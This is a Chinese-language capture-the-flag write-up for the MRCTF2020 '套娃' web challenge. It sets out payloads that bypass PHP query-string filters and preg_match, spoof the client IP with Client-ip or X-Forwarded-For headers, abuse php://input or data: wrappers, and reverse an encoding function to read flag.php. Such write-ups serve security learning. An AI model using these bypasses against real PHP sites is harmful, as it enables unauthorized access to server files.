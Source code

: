 # \[MRCTF2020]套娃

## \[MRCTF2020]套娃

## 考点

* PHP参数污染
* PHP的字符串解析特性
* JSFuck

## wp

F12看到源码

```php
//1st
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```

`$_SERVER['QUERY_STRING']`是请求附带的参数，不能有`_`，但是后一段代码要求GET参数`b_u_p_t`，这是PHP的参数污染问题，用<mark style="color:orange;">`b[u[p[t`</mark>，发现不行，那还可以用<mark style="color:red;">`空格`</mark>或者<mark style="color:red;">`.`</mark>。又要求参数不等于23333，但是要和它长得一模一样，则可以使用%0a绕过`preg_match`

payload：`b u p t=23333%0a`

来到下一层`secrettw.php` ，F12看到一堆JSFuck编码，放到控制台执行，给了提示`post me Merak`

![](<../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png>)

POST Merak可以得到源码

```php
<?php 
error_reporting(0); 
include 'takeip.php';
ini_set('open_basedir','.'); 
include 'flag.php';

if(isset($_POST['Merak'])){ 
    highlight_file(__FILE__); 
    die(); 
} 


function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
echo 'Local access only!'."<br/>";
$ip = getIp();
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
echo "Your REQUEST is:".change($_GET['file']);
echo file_get_contents(change($_GET['file'])); }
?>  
```

IP限制可以使用`Client-ip: 127.0.0.1`绕过，`file_get_contents($_GET['2333'])`可以使用`php://input`或者`data:text/plain,todat is a happy day`绕过，最后再反写`change`函数就可以了

`change`函数的加密逻辑就是 `C = P + 2x`，反过来不难写出解密逻辑

```php
function dechange($v){ 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) - $i*2 ); 
    } 
    return base64_encode($re); 
}
```

flag.php的密文为`ZmpdYSZmXGI=`

![](<../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

## 小结

1. [利用PHP的字符串解析特性Bypass](https://www.freebuf.com/articles/web/213359.html)
2. 对于本地IP的绕过，可以使用`X-Forwarded-For`或者`Client-ip`
